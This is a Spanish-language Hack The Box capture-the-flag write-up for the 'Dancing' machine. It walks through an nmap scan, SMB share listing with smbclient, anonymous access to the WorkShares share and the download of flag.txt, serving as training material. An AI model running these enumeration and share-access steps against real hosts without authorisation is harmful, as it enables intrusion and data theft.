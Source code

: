 ```yaml
---
title: Dancing
author: d3vjh
date: 2024-02-15 12:00:00 +0000
categories: [Security, HTB]
tags: [Windows, Enumeration, Exploitation]
img_path: /assets/img/commons/Dancing/
image: Dancing.png
---
```


## Recopilación de información

![Untitled](1.png)

```bash
❯ ping -c 1 10.129.197.183
PING 10.129.197.183 (10.129.197.183) 56(84) bytes of data.
64 bytes from 10.129.197.183: icmp_seq=1 ttl=127 time=84.5 ms


--- 10.129.197.183 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 84.479/84.479/84.479/0.000 ms
```

De esta traza `ICMP` podemos obtener que, debido al `ttl=127`, estamos frente a una máquina Windows.

Hacemos un escaneo con la herramienta **nmap**:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.197.183 -oG allPorts
```

Resultado:
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  msrpc        syn-ack ttl 127
49665/tcp open  msrpc        syn-ack ttl 127
49666/tcp open  msrpc        syn-ack ttl 127
49667/tcp open  msrpc        syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127
49669/tcp open  msrpc        syn-ack ttl 127
```

Luego, realizamos un escaneo más detallado para identificar versiones y servicios:

```bash
nmap -sCV -p135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.197.183 -oN targeted
```

Resultado:
```bash
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
```

## Análisis de vulnerabilidades

Por el puerto `445`, encontramos que está corriendo `microsoft-ds?`, relacionado con `SMB`. Este servicio puede ser explotado para compartir recursos en la red. Usando `smbclient`, listamos los servicios disponibles:

```bash
smbclient -L 10.129.197.183
```

Salida:
```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```

Nos conectamos al recurso `WorkShares`:

```bash
smbclient \\\\10.129.197.183\\WorkShares
```

Salida:
```bash
smb: \> ls
  .                                   D        0  ...
  Amy.J                               D        0  ...
  James.P                             D        0  ...
```

## Explotación de vulnerabilidades

Entramos al directorio `Amy.J` y descargamos un archivo:

```bash
smb: \Amy.J\> get worknotes.txt
```

Hacemos lo mismo en `James.P`:

```bash
smb: \James.P\> get flag.txt
```

## Post-Explotación

Revisamos los archivos descargados y analizamos el contenido:

![Archivo 1](2.png)  
![Archivo 2](3.png)

